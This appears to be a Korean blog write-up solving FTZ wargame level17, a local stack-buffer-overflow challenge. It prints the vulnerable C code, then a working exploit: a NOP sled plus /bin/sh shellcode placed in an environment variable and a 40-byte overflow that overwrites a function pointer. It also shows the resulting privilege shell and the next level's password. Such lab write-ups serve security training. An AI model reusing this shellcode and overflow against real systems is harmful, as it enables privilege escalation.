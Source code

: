 ```yaml
---
title: "[FTZ] level17 풀이"
categories:
  - ftz
tags:
  - FTZ
toc: true
toc_sticky: true
toc_label: "level17 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/ftz.png
---
```


💡 FTZ level17 풀이
{: .notice--warning}


# 문제

계정 : level17/king poetic

**hint**
```c
#include <stdio.h>

void printit() {
  printf("Hello there!\n");
}

main()
{ int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  setreuid(3098,3098);
  call();
}

```

# 풀이
16번과 동일한데, 쉘 코드가 주어지지 않았습니다.
따라서 기존에 하던 방식으로 환경변수에 쉘 코드를 넣고,
주소를 환경변수로 바꿔주면 됩니다.

환경 변수를 선언하고, 그 주소를 구해 줍니다.

```sh
[level17@ftz level17]$ export SHELLCODE=$(python -c 'print("\x90"*30+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")')
[level17@ftz level17]$
[level17@ftz level17]$ cd tmp
[level17@ftz tmp]$ echo 'int main(){printf("%p\n",getenv("SHELLCODE"));}' >> env.c
[level17@ftz tmp]$ gcc -o env env.c
[level17@ftz tmp]$ ./env
0xbffffc6d
```

call 주소를 0xbffffc6d로 덮어줍니다.

gdb를 분석하는건 생략하겠습니다.

call 변수와 buf 변수의 차이는 40바이트 입니다.

```sh
[level17@ftz level17]$ (python -c 'print("A"*40+"\x6d\xfc\xff\xbf")';cat) | ./attackme

id
uid=3098(level18) gid=3097(level17) groups=3097(level17)
my-pass
TERM environment variable not set.

Level18 Password is "why did you do it".

```

쉘을 획득했습니다.
